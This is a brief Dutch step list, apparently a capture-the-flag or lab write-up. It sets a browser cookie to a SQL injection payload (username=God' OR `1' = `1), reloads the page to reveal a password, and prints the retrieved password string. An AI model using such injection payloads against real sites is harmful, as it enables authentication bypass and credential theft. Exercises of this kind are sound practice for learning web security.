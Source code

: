 \begin{enumerate}
\item Open console (CTRL + SHIFT + j)
\item Pas de cookie aan:
\item document.cookie="username=God' OR `1' = `1"
\item De webpagina herladen en het wachtwoord komt tevoorschijn
\item f9zbnaXRC11vqNQNnmQw
\end{enumerate}